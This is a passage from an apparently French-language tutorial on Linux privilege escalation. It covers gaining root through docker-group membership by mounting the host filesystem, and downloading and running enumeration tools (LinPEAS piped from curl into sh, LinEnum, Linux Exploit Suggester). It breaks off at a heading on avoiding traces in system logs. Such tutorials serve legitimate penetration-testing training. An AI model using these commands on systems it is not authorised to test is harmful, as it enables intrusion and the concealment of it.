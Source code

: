 #### Docker breakout

Si vous êtes membre du groupe docker, vous pouvez obtenir des privilèges root :

```bash
# Vérifier l'appartenance au groupe docker
groups

# Si vous êtes dans le groupe docker
docker run -v /:/mnt -it alpine chroot /mnt sh
```

Cette commande monte le système de fichiers hôte dans le conteneur et vous donne un shell root.

### 2.3 Outils d'automatisation

Plusieurs outils automatisent le processus d'énumération et suggèrent des vecteurs d'escalade de privilèges :

#### LinPEAS

LinPEAS est un script complet qui recherche les chemins d'escalade de privilèges potentiels :

```bash
# Téléchargement et exécution de LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

LinPEAS effectue une analyse approfondie du système et met en évidence les vulnérabilités potentielles avec un code couleur.

#### LinEnum

LinEnum est un autre script d'énumération populaire :

```bash
# Téléchargement et exécution de LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

#### Linux Exploit Suggester

Cet outil identifie les exploits de noyau potentiels basés sur la version du système :

```bash
# Téléchargement et exécution de Linux Exploit Suggester
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

### 2.4 Considérations OPSEC

Les activités d'escalade de privilèges laissent des traces dans les journaux système. Voici comment minimiser votre empreinte :
